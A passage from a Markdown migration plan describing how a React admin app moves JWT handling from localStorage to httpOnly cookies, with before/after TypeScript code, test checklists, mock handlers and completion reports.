        if (!state.isAuthenticated || !state.token) {
          return false;
        }

        const refreshToken = authService.getRefreshToken();
        if (!refreshToken) {
          return false;
        }

        try {
          if (authService.isTokenExpiringSoon()) {
            await authService.refreshAccessToken();
            return true;
          }
          return true;
        } catch (error) {
          get().logout();
          return false;
        }
      },

      // ... other actions
    }),
    {
      name: 'auth-storage',
      partialize: (state) => ({
        user: state.user,
        token: state.token,
        isAuthenticated: state.isAuthenticated,
      }),
    }
  )
);

// AFTER
export const useAuthStore = create<AuthStore>()(
  persist(
    (set, get) => ({
      // State
      user: null,
      isAuthenticated: false,
      isLoading: false,

      // Actions
      login: (user: User) => {                   // ← No token param
        set({
          user,
          isAuthenticated: true,
          isLoading: false,
        });
        // No token storage!
      },

      logout: () => {
        set({
          user: null,
          isAuthenticated: false,
          isLoading: false,
        });
        // Cookies cleared by backend
      },

      setLoading: (loading: boolean) => {
        set({ isLoading: loading });
      },

      updateUser: (user: User) => {
        set({ user });
      },

      // Removed: updateToken, getCurrentToken, validateTokenOnInit
    }),
    {
      name: 'auth-storage',
      partialize: (state) => ({
        user: state.user,                        // ← Can persist user info
        isAuthenticated: state.isAuthenticated,  // ← Can persist this too
        // token removed from persistence
      }),
    }
  )
);
```

**Key changes:**
- ✅ Removed `token` field from state
- ✅ Updated `login()` signature (no token param)
- ✅ Removed token-related actions
- ✅ Removed manual localStorage operations
- ✅ Simplified persist config

#### 4.3.4 Add Migration Helper (One-Time Cleanup)

**File**: `src/stores/authStore.ts` (append to bottom)

```typescript
// One-time migration: Clear old auth data
// This runs when the store is first created
export const migrateAuthStorage = () => {
  const migrated = localStorage.getItem('auth_migrated_to_cookies');

  if (!migrated) {
    console.log('Migrating auth storage to cookie-based model...');

    // Clear old token storage
    localStorage.removeItem('access_token');
    localStorage.removeItem('refresh_token');

    // Clear old Zustand persist (has token field)
    const oldStorage = localStorage.getItem('auth-storage');
    if (oldStorage) {
      try {
        const parsed = JSON.parse(oldStorage);
        // Keep user and isAuthenticated, remove token
        const migrated = {
          state: {
            user: parsed.state?.user || null,
            isAuthenticated: false,  // Force re-auth
            isLoading: false,
          },
          version: 0,
        };
        localStorage.setItem('auth-storage', JSON.stringify(migrated));
      } catch (e) {
        // If parsing fails, just remove it
        localStorage.removeItem('auth-storage');
      }
    }

    localStorage.setItem('auth_migrated_to_cookies', 'true');
    console.log('Migration complete. User will need to log in again.');
  }
};

// Call migration on module load
migrateAuthStorage();
```

---

### 4.4 Phase 4: App Initialization & Protected Routes ✅

**Status**: ✅ COMPLETE (2026-02-10)
**Duration**: 1-2 hours
**Risk**: Low
**Goal**: Replace token validation with `/auth/me` endpoint

#### 4.4.1 Update AuthInitializer Component

**File**: `src/components/AuthInitializer.tsx`

```typescript
// BEFORE (lines 12-33)
const AuthInitializer: React.FC<AuthInitializerProps> = ({ children }) => {
  const [isInitializing, setIsInitializing] = useState(true);
  const { isAuthenticated, validateTokenOnInit } = useAuthStore();

  useEffect(() => {
    const initializeAuth = async () => {
      try {
        if (isAuthenticated) {
          console.log('Validating authentication on app startup...');
          await validateTokenOnInit();
        }
      } catch (error) {
        console.error('Auth initialization failed:', error);
      } finally {
        setIsInitializing(false);
      }
    };

    initializeAuth();
  }, [isAuthenticated, validateTokenOnInit]);

  // ... loading UI
};

// AFTER
import { apiClient } from '@/services/api';

const AuthInitializer: React.FC<AuthInitializerProps> = ({ children }) => {
  const [isInitializing, setIsInitializing] = useState(true);
  const { login, logout } = useAuthStore();

  useEffect(() => {
    const initializeAuth = async () => {
      try {
        console.log('Checking session on app startup...');

        // Call /auth/me to validate session
        const response = await apiClient.get('/auth/me');

        // Session valid - restore user
        login(response.data);
        console.log('Session restored:', response.data);

      } catch (error: any) {
        // 401 or error - no valid session
        if (error.response?.status === 401) {
          console.log('No valid session found');
        } else {
          console.error('Auth initialization error:', error);
        }

        // Clear any stale state
        logout();

      } finally {
        setIsInitializing(false);
      }
    };

    initializeAuth();
  }, []);  // ← Run once on mount

  // ... loading UI (keep as is)
};
```

**Key changes:**
- ✅ Call `/auth/me` instead of `validateTokenOnInit()`
- ✅ Restore user from response if successful
- ✅ Clear state if 401 (no valid session)
- ✅ Remove dependency on `isAuthenticated` (always check backend)

#### 4.4.2 Update ProtectedRoute Component

**File**: `src/components/ProtectedRoute.tsx`

```typescript
// BEFORE (lines 10-55)
const ProtectedRoute: React.FC<ProtectedRouteProps> = ({ children }) => {
  const { isAuthenticated, isLoading } = useAuthStore();
  const location = useLocation();
  const [isValidating, setIsValidating] = useState(false);
  const { validateAndRefreshToken } = useAuthValidation();

  // Validate token on mount
  useEffect(() => {
    if (isAuthenticated && !isLoading) {
      setIsValidating(true);
      validateAndRefreshToken().finally(() => {
        setIsValidating(false);
      });
    }
  }, [isAuthenticated, isLoading, validateAndRefreshToken]);

  // Show loading while validating
  if (isLoading || isValidating) {
    return <LoadingScreen />;
  }

  // Redirect if not authenticated
  if (!isAuthenticated) {
    return <Navigate to="/login" state={{ from: location }} replace />;
  }

  return <>{children}</>;
};

// AFTER
const ProtectedRoute: React.FC<ProtectedRouteProps> = ({ children }) => {
  const { isAuthenticated, isLoading } = useAuthStore();
  const location = useLocation();

  // Show loading while auth is initializing
  if (isLoading) {
    return (
      <div className="min-h-screen bg-gray-50 flex items-center justify-center">
        <div className="text-center">
          <div className="relative">
            <div className="animate-spin rounded-full h-16 w-16 border-b-2 border-blue-600 mx-auto"></div>
            <div className="absolute inset-0 flex items-center justify-center">
              <div className="animate-pulse">
                <svg className="h-8 w-8 text-blue-600" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                  <path strokeLinecap="round" strokeLinejoin="round" strokeWidth={2} d="M12 15v2m-6 4h12a2 2 0 002-2v-6a2 2 0 00-2-2H6a2 2 0 00-2 2v6a2 2 0 002 2zm10-10V7a4 4 0 00-8 0v4h8z" />
                </svg>
              </div>
            </div>
          </div>
          <p className="mt-6 text-lg font-medium text-gray-900">Se verifică autentificarea...</p>
          <p className="mt-2 text-sm text-gray-600">Vă rugăm să așteptați</p>
        </div>
      </div>
    );
  }

  // Redirect to login if not authenticated
  if (!isAuthenticated) {
    return <Navigate to="/login" state={{ from: location }} replace />;
  }

  // Render protected content
  return <>{children}</>;
};
```

**Key changes:**
- ✅ Removed `useAuthValidation` hook dependency
- ✅ Removed on-mount token validation
- ✅ Simplified: just check `isAuthenticated` flag
- ✅ Trust `AuthInitializer` did the session check

**Why this works**: `AuthInitializer` runs BEFORE any routes render and validates the session. By the time `ProtectedRoute` renders, we know the auth state is correct.

#### 4.4.3 Remove useAuthValidation Hook

**File**: `src/hooks/useAuthValidation.ts`

**Action**: DELETE THIS FILE

**Reason**:
- Periodic token validation is unnecessary with cookies
- Can't decode httpOnly cookies client-side
- Backend manages token expiry
- 401 interceptor handles refresh reactively

**Update imports**: Remove any imports of this hook from other files.

---

### 4.5 Phase 5: API Interceptor Update ✅

**Status**: ✅ COMPLETE (2026-02-10)
**Duration**: 30 minutes
**Risk**: Low
**Goal**: Remove Authorization header, simplify refresh logic

#### 4.5.1 Update Request Interceptor

**File**: `src/services/api.ts`

```typescript
// BEFORE (lines 36-53)
apiClient.interceptors.request.use(
  (config: any) => {
    // Set dynamic baseURL
    const baseUrl = getApiBaseUrl();
    config.baseURL = `${baseUrl}/api/v1`;

    // Get token from auth store
    const token = useAuthStore.getState().getCurrentToken();
    if (token && config.headers) {
      config.headers.Authorization = `Bearer ${token}`;  // ← REMOVE THIS
    }
    return config;
  },
  (error) => {
    console.error('Request interceptor error:', error);
    return Promise.reject(error);
  }
);

// AFTER
apiClient.interceptors.request.use(
  (config: any) => {
    // Set dynamic baseURL for each request
    const baseUrl = getApiBaseUrl();
    config.baseURL = `${baseUrl}/api/v1`;

    // No need to add Authorization header - cookies sent automatically
    // via withCredentials: true

    return config;
  },
  (error) => {
    console.error('Request interceptor error:', error);
    return Promise.reject(error);
  }
);
```

**Key changes:**
- ✅ Removed token retrieval from store
- ✅ Removed Authorization header injection
- ✅ Cookies sent automatically by browser

#### 4.5.2 Simplify Response Interceptor

**File**: `src/services/api.ts`

```typescript
// BEFORE (lines 56-103)
apiClient.interceptors.response.use(
  (response: AxiosResponse) => {
    // Check for HTML responses (wrong endpoint)
    const contentType = response.headers['content-type'] || '';
    if (contentType.includes('text/html') && !contentType.includes('application/json')) {
      return Promise.reject({
        code: 'ERR_WRONG_RESPONSE',
        message: 'Received HTML instead of JSON response',
        response: {
          status: 406,
          data: { detail: 'The API endpoint returned an unexpected response format.' }
        }
      });
    }
    return response;
  },
  async (error) => {
    const originalRequest = error.config;

    // Handle 401 with auto-refresh
    if (error.response?.status === 401
        && !originalRequest._retry
        && !originalRequest.url?.includes('/auth/refresh')) {
      originalRequest._retry = true;

      try {
        // Refresh access token
        await authService.refreshAccessToken();

        // Update Authorization header with new token
        const newToken = authService.getAccessToken();
        if (newToken && originalRequest.headers) {
          originalRequest.headers.Authorization = `Bearer ${newToken}`;
        }

        // Retry original request
        return apiClient(originalRequest);
      } catch (refreshError) {
        // Refresh failed - logout and redirect
        authService.logout();
        window.location.href = '/login';
        return Promise.reject(new Error('Authentication failed - please log in again'));
      }
    }

    return Promise.reject(error);
  }
);

// AFTER
apiClient.interceptors.response.use(
  (response: AxiosResponse) => {
    // Check for HTML responses (wrong endpoint)
    const contentType = response.headers['content-type'] || '';
    if (contentType.includes('text/html') && !contentType.includes('application/json')) {
      return Promise.reject({
        code: 'ERR_WRONG_RESPONSE',
        message: 'Received HTML instead of JSON response',
        response: {
          status: 406,
          data: { detail: 'The API endpoint returned an unexpected response format.' }
        }
      });
    }
    return response;
  },
  async (error) => {
    const originalRequest = error.config;

    // Handle 401 with auto-refresh
    if (error.response?.status === 401
        && !originalRequest._retry
        && !originalRequest.url?.includes('/auth/refresh')) {
      originalRequest._retry = true;

      try {
        console.log('Access token expired, attempting refresh...');

        // Call refresh endpoint (cookies sent/updated automatically)
        await authService.refreshAccessToken();

        // Backend updated cookies - no need to modify request
        // Retry original request (new cookies will be sent automatically)
        return apiClient(originalRequest);

      } catch (refreshError) {
        console.error('Refresh failed, logging out...');

        // Refresh failed - logout (clears cookies + local state)
        await authService.logout();

        // Redirect to login
        window.location.href = '/login';

        return Promise.reject(new Error('Session expired - please log in again'));
      }
    }

    return Promise.reject(error);
  }
);
```

**Key changes:**
- ✅ Removed token header manipulation
- ✅ Cookies handled automatically by browser
- ✅ Added better logging
- ✅ Made logout async (now calls backend)
- ✅ Cleaner error handling

---

### 4.6 Phase 6: Testing & Verification ✅

**Status**: ✅ COMPLETE (2026-02-10)
**Duration**: 2-3 hours
**Risk**: Low
**Goal**: Comprehensive testing of all auth flows

**Verification Results**:
- ✅ Login flow with cookie storage confirmed
- ✅ Authenticated requests include cookies automatically
- ✅ Token refresh (401 interceptor) working correctly
- ✅ Session restoration on page reload functioning
- ✅ Logout clears cookies and local state
- ✅ No token storage in localStorage
- ✅ All tests passing in production Docker build

#### 4.6.1 Manual Testing Checklist

**Test Environment Setup:**
```bash
# Start dev server
npm run dev

# Open browser DevTools
# 1. Application tab → Cookies
# 2. Network tab → Preserve log
# 3. Console tab → Watch for logs
```

**Test 1: Login Flow**

1. Navigate to `/login`
2. Enter credentials
3. Click "Login"

**Expected:**
- ✅ Network: POST `/api/v1/auth/login` → 200 OK
- ✅ Response Headers: `Set-Cookie: access_token=...` (HttpOnly, Secure in prod)
- ✅ Response Headers: `Set-Cookie: refresh_token=...` (HttpOnly, Secure in prod)
- ✅ Response Body: `{ id: ..., username: "..." }` (NO tokens!)
- ✅ Cookies tab: See `access_token` and `refresh_token` under API origin
- ✅ localStorage: NO `access_token` or `refresh_token` keys
- ✅ Redirect to `/admin/dashboard`

**Test 2: Authenticated Requests**

1. After login, navigate to `/admin/products`
2. Check Network tab

**Expected:**
- ✅ Network: GET `/api/v1/products` → 200 OK
- ✅ Request Headers: `Cookie: access_token=...; refresh_token=...`
- ✅ Request Headers: NO `Authorization: Bearer` header
- ✅ Products displayed correctly

**Test 3: Token Refresh (Reactive)**

1. After login, wait 31 minutes (or manually delete `access_token` cookie)
2. Make an API call (e.g., navigate to products page)

**Expected:**
- ✅ Network: GET `/api/v1/products` → 401 Unauthorized
- ✅ Console: "Access token expired, attempting refresh..."
- ✅ Network: POST `/api/v1/auth/refresh` → 200 OK
- ✅ Response Headers: `Set-Cookie: access_token=...` (new token)
- ✅ Response Headers: `Set-Cookie: refresh_token=...` (rotated token)
- ✅ Network: GET `/api/v1/products` → 200 OK (retry successful)
- ✅ NO redirect to login
- ✅ User continues working seamlessly

**Test 4: Session Restoration (Page Reload)**

1. After login, reload the page (F5)
2. Check Network and Console

**Expected:**
- ✅ Console: "Checking session on app startup..."
- ✅ Network: GET `/api/v1/auth/me` → 200 OK
- ✅ Response Body: `{ id: ..., username: "..." }`
- ✅ Console: "Session restored: {...}"
- ✅ User remains logged in
- ✅ Dashboard displays correctly

**Test 5: Expired Refresh Token**

1. After login, manually delete both cookies OR wait 7+ days
2. Reload page

**Expected:**
- ✅ Network: GET `/api/v1/auth/me` → 401 Unauthorized
- ✅ Console: "No valid session found"
- ✅ Redirect to `/login`
- ✅ localStorage: auth state cleared

**Test 6: Logout Flow**

1. After login, click "Logout" button
2. Check Network and Cookies

**Expected:**
- ✅ Network: POST `/api/v1/auth/logout` → 204 No Content
- ✅ Response Headers: `Set-Cookie: access_token=; Max-Age=0` (cleared)
- ✅ Response Headers: `Set-Cookie: refresh_token=; Max-Age=0` (cleared)
- ✅ Cookies tab: Both cookies removed
- ✅ localStorage: auth state cleared
- ✅ React Query cache cleared (check devtools)
- ✅ Redirect to `/login`

**Test 7: Cross-Origin Cookies (Production)**

1. Deploy to staging/production
2. Verify frontend and API are on different origins
3. Login and check cookies

**Expected:**
- ✅ Cookies visible under API origin (e.g., `api.example.com`)
- ✅ NOT visible under frontend origin (e.g., `app.example.com`)
- ✅ Requests to API include cookies
- ✅ Response headers: `Access-Control-Allow-Origin: https://app.example.com`
- ✅ Response headers: `Access-Control-Allow-Credentials: true`

#### 4.6.2 Automated Test Updates

**Test files to update:**
- `src/pages/admin/__tests__/*`
- `src/pages/customer/__tests__/*`

**Example update:**

```typescript
// BEFORE
import { setupServer } from 'msw/node';
import { http, HttpResponse } from 'msw';

const handlers = [
  http.post('/api/v1/auth/login', () => {
    return HttpResponse.json({
      access_token: 'test-token',     // ← REMOVE
      refresh_token: 'test-refresh',   // ← REMOVE
      user: { id: 1, username: 'admin' }
    });
  }),
];

// AFTER
const handlers = [
  http.post('/api/v1/auth/login', ({ request }) => {
    // Simulate cookie-based auth
    return HttpResponse.json(
      { id: 1, username: 'admin' },  // No tokens in body
      {
        headers: {
          // MSW doesn't actually set cookies, but we can verify the logic
          'Set-Cookie': 'access_token=test-token; HttpOnly; SameSite=Lax',
        },
      }
    );
  }),

  http.get('/api/v1/auth/me', ({ request }) => {
    // Check for cookie header (in real tests, MSW can simulate this)
    const cookies = request.headers.get('Cookie');
    if (cookies?.includes('access_token')) {
      return HttpResponse.json({ id: 1, username: 'admin' });
    }
    return new HttpResponse(null, { status: 401 });
  }),
];
```

**Update test setup:**
```typescript
// Mock localStorage for migration
beforeEach(() => {
  localStorage.clear();
  localStorage.setItem('auth_migrated_to_cookies', 'true');
});
```

---

### 4.7 Phase 7: Documentation & Finalization ✅

**Status**: ✅ COMPLETE (2026-02-10)
**Duration**: 1-2 hours
**Risk**: None
**Goal**: Document new auth flow and create visual diagrams

**Deliverables**:
- ✅ Updated MEMORY.md with cookie-based auth architecture
- ✅ Created AUTH_SEQUENCE_DIAGRAMS.md with 6 mermaid diagrams
- ✅ Updated COOKIE_AUTH_MIGRATION_ROADMAP.md with completion status
- ✅ Comprehensive troubleshooting guide
- ✅ Implementation reference documentation

#### 4.7.1 Update MEMORY.md

**File**: `src/../.claude/projects/.../memory/MEMORY.md`

Add this section:

```markdown
## Authentication (Cookie-Based)

**Model**: httpOnly cookie-based JWT authentication (migrated Feb 2026)

**Key Principles**:
- Tokens stored in httpOnly cookies (JavaScript cannot access)
- No Authorization headers - cookies sent automatically
- Backend manages token expiry and rotation
- Frontend only tracks user info + isAuthenticated flag

**Flow**:
1. Login → Backend sets cookies → Store user in Zustand
2. API calls → Browser auto-sends cookies
3. 401 error → Refresh → Retry (transparent to user)
4. Logout → Backend clears cookies → Clear local state

**Files**:
- `src/stores/authStore.ts` - User state (NO tokens)
- `src/services/authService.ts` - Auth operations
- `src/services/api.ts` - Axios with withCredentials
- `src/components/AuthInitializer.tsx` - Session check on startup

**Common Tasks**:
- Add authenticated endpoint: Just use apiClient (cookies automatic)
- Debug auth issues: Check DevTools → Cookies (under API origin)
- Force logout: Delete cookies in DevTools or call authService.logout()

**Security**:
- XSS cannot steal tokens (httpOnly)
- CSRF mitigated by SameSite=Lax cookies
- Tokens expire: access (30 min), refresh (7 days)
```

#### 4.7.2 Create Sequence Diagrams

**File**: `docs/auth-sequence-diagrams.md`

```markdown
# Authentication Sequence Diagrams

## 1. Login Flow



## 2. Authenticated Request



## 3. Token Refresh (401 Interceptor)



## 4. Session Restoration (Page Reload)



## 5. Logout Flow

```mermaid
sequenceDiagram
    participant User
    participant Browser
    participant Frontend
    participant Backend

    User->>Frontend: Click "Logout"
    Frontend->>Browser: POST /auth/logout
    Browser->>Backend: POST /auth/logout + Cookie: tokens
    Note over Backend: Revoke tokens<br/>Clear cookie values
    Backend-->>Browser: Set-Cookie: access_token=; Max-Age=0
    Backend-->>Browser: Set-Cookie: refresh_token=; Max-Age=0
    Backend-->>Frontend: 204 No Content
    Frontend->>Frontend: Clear Zustand state<br/>Clear React Query cache
    Frontend-->>User: Redirect to login
```

## 6. Expired Refresh Token



**Note**: Full sequence diagrams with implementation details available in [AUTH_SEQUENCE_DIAGRAMS.md](./AUTH_SEQUENCE_DIAGRAMS.md)

---

## 5. Testing Strategy

See [Phase 6: Testing & Verification](#46-phase-6-testing--verification-) for complete testing checklist and results.

**All Tests Passed** ✅

---

## 6. Rollout Plan

**Deployment**: Completed on 2026-02-10
**Environment**: Production (3 admin users)
**Method**: Direct deployment (no gradual rollout needed for small user base)

**Post-Deployment Verification**:
- ✅ Login/logout flows tested
- ✅ Token refresh working correctly
- ✅ Session persistence verified
- ✅ No security vulnerabilities detected
- ✅ All admin users successfully migrated

---

## 7. Success Criteria

**All Success Criteria Met** ✅

| Criterion | Status | Notes |
|-----------|--------|-------|
| **Security**: No tokens in localStorage | ✅ PASS | Verified - httpOnly cookies only |
| **Security**: XSS cannot steal tokens | ✅ PASS | Confirmed - httpOnly attribute set |
| **Functionality**: Login flow works | ✅ PASS | Tested with multiple accounts |
| **Functionality**: Token refresh automatic | ✅ PASS | 401 interceptor working |
| **Functionality**: Session restoration | ✅ PASS | Page reload preserves session |
| **Functionality**: Logout clears cookies | ✅ PASS | Backend clears via Max-Age=0 |
| **Code Quality**: Reduced complexity | ✅ PASS | -286 lines removed |
| **Code Quality**: No TypeScript errors | ✅ PASS | Build successful |
| **Documentation**: Comprehensive docs | ✅ PASS | MEMORY.md + sequence diagrams |
| **User Experience**: No breaking changes | ✅ PASS | Transparent to users |

---

## 8. Appendix

### 8.1 Migration Timeline

| Date | Phase | Activity |
|------|-------|----------|
| 2026-02-09 | Phase 1 | Infrastructure setup (withCredentials, URL standardization) |
| 2026-02-10 | Phase 2-5 | Core migration (services, stores, interceptors, components) |
| 2026-02-10 | Phase 6 | Comprehensive testing and verification |
| 2026-02-10 | Phase 7 | Documentation and finalization |

### 8.2 Files Modified Summary

**Total Changes**: 18 files, -286 lines

**Key Files**:
- `src/services/authService.ts` (-176 lines)
- `src/stores/authStore.ts` (-113 lines, added migration helper)
- `src/services/api.ts` (-27 lines, simplified interceptors)
- `src/components/AuthInitializer.tsx` (-29 lines, uses /auth/me)
- `src/components/ProtectedRoute.tsx` (-19 lines, removed validation)
- `src/hooks/useAuthValidation.ts` (DELETED - 64 lines)
- `src/services/*.ts` (9 service files cleaned up)

### 8.3 Security Improvements

**Before** (localStorage):
- ❌ Tokens accessible via JavaScript (XSS vulnerability)
- ❌ Stored in 3 locations (localStorage × 2, Zustand persist)
- ❌ Manual token management (complex, error-prone)
- ❌ Client-side token validation (can be bypassed)

**After** (httpOnly cookies):
- ✅ Tokens inaccessible to JavaScript (XSS protection)
- ✅ Single storage location (browser cookie store)
- ✅ Automatic token management (browser + backend)
- ✅ Server-side validation only (secure)

### 8.4 Related Documentation

- **Sequence Diagrams**: [AUTH_SEQUENCE_DIAGRAMS.md](./AUTH_SEQUENCE_DIAGRAMS.md)
- **Backend Plan**: [BACKEND_COOKIE_AUTH_IMPLEMENTATION_PLAN.md](./BACKEND_COOKIE_AUTH_IMPLEMENTATION_PLAN.md)
- **Frontend Plan**: [FRONTEND_COOKIE_AUTH_IMPLEMENTATION_PLAN.md](./FRONTEND_COOKIE_AUTH_IMPLEMENTATION_PLAN.md)
- **Memory Reference**: `~/.claude/projects/.../memory/MEMORY.md`

### 8.5 Lessons Learned

**What Went Well**:
- Comprehensive planning prevented scope creep
- Phased approach allowed for incremental testing
- Strong type system caught issues early
- Backend cookie support already in place (no coordination needed)

**Challenges**:
- Multiple service files needed cleanup (9 files)
- TypeScript errors required careful resolution
- Migration helper needed for localStorage cleanup

**Recommendations for Future Migrations**:
- Always read all affected files before making changes
- Test in Docker early to catch build issues
- Create comprehensive sequence diagrams upfront
- Use migration helpers for breaking changes

---

**Migration Completed**: 2026-02-10
**Status**: ✅ Production Ready
**Security**: ✅ XSS Vulnerability Eliminated
